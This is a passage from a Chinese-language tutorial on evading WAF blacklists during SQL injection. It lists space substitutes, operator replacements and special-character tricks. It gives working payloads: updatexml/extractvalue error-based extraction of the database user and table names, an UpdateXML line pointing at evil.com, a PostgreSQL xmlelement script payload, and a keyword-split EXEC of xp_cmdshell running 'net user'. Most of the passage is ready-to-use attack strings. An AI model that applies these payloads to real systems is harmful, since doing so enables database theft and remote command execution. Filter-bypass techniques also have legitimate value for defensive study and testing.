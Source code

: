 上述这几个示例用于说明有时候当某个函数不能使用时还可以找到其他的函数替代其实现至于select、uinon、where等关键字被限制如何处理将在后面filter部分讨论

#### 2.符号

and和or有可能不能使用可以试下&&和||能不能用还有=不能使用的情况可以考虑尝试<、>因为如果不小于又不大于那便是等于了

再看一下用得很多的空格可以使用如下符号代替其使用

```
%20 %09 %0a %0b %0c %0d %a0 /**/ 

```

#### 3.生僻函数

MySQL/PostgreSQL支持XML函数

```
Select UpdateXML('<script x=_></script> ','/script/@x/','src=//evil.com');
?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))
SELECT xmlelement(name img,xmlattributes(1as src,'a\l\x65rt(1)'as \117n\x65rror));　//postgresql
?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));

```

MySQL、PostgreSQL、Oracle它们都有许多自己的函数基于黑名单的filter要想涵盖这么多东西从实际上来说不太可能而且代价太大因此黑名单的确是更适合处理已知的情况

### f) 特殊符号

这里我把非字母数字的字符都规在了特殊符号一类这些符号有特殊的含义和用法涉及信息量比前面提到的几种都要多

先看下drops上[waf的绕过技巧](http://drops.wooyun.org/tips/132)一文使用的几个例子

```
1.使用反引号`，例如select `version()`，可以用来过空格和正则，特殊情况下还可以将其做注释符用
2.神奇的"-+."，select+id-1+1.from users; “+”是用于字符串连接的，”-”和”.”在此也用于连接，可以逃过空格和关键字过滤
3.@符号，select@^1.from users; @用于变量定义如@var_name，一个@表示用户定义，@@表示系统变量
4.Mysql function() as xxx  也可不用as和空格　　 select-count(id)test from users;  //绕过空格限制

```

可见使用这些字符的确是能做很多事也证实了那句老话只有想不到没有做不到

笔者搜罗了部分可能发挥大作用的字符(这里未包括'、*、/等在内考虑到前面已经出现较多次了)

```
`、~、!、@、%、()、[]、.、-、+ 、|、%00

```

举例

关键字拆分

```
'se'+'lec'+'t'
%S%E%L%E%C%T 1
1.aspx?id=1;EXEC('ma'+'ster..x'+'p_cm'+'dsh'+'ell "net user"')

```
